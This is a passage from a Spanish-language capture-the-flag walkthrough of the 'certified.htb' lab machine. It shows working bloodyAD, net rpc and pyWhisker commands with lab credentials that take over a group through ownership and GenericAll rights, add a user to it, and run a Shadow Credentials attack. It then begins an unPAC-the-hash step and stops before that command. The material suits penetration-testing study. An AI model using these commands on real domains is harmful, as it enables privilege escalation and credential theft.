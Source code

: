 {% code overflow="wrap" %}
```bash
bloodyAD --host 10.10.11.41 -d certified.htb -u judith.mader -p 'judith09' set owner 'Management' judith.mader

bloodyAD --host 10.10.11.41 -d certified.htb -u judith.mader -p 'judith09' add genericAll 'Management' judith.mader

net rpc group addmem "Management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41
```
{% endcode %}

<figure><img src="../../.gitbook/assets/2483_vmware_d37cukpEGr.png" alt=""><figcaption></figcaption></figure>

### Abusing GenericWrite Privilege - Shadow Credentials Attack (pyWhisker.py)

Ya que ahora el usuario que disponemos "judith.mader@certified.htb" forma parte del grupo "management@certified.htb" y los miembros de este disponen del privilegio de **GenericWrite**, podemos probar de realizar un **Shadow Credentials Attack** para obtener el hash NTM del usuario "management\_svc@certified.htb".

Verificamos que al realizar el ataque, obtenemos un archivo **.PFX** y unas credenciales para el archivo en cuestión.

{% code overflow="wrap" %}
```bash
python3 /opt/pywhisker/pywhisker/pywhisker.py --dc-ip 10.10.11.41 -d "certified.htb" -u "judith.mader" -p "judith09" --target "MANAGEMENT_SVC" --action "add"
```
{% endcode %}

<figure><img src="../../.gitbook/assets/2484_vmware_ORecB06OH9.png" alt=""><figcaption></figcaption></figure>

### unPAC the hash (gettgtpkinit.py && getnthash.py)

A continuación, deberemos de realizar un **unPAC the hash** para obtener el hash NTLM del usuario al cual le hemos realizado el **Shadow Credentials Attack**.

A través del siguiente comando, procederemos a obtener el TGT (Ticket Granting Ticket) utilizando el el certificado **.PFX** obtenido. Verificamos que nos genera un TGT en el archivo llamado **.ccache**.
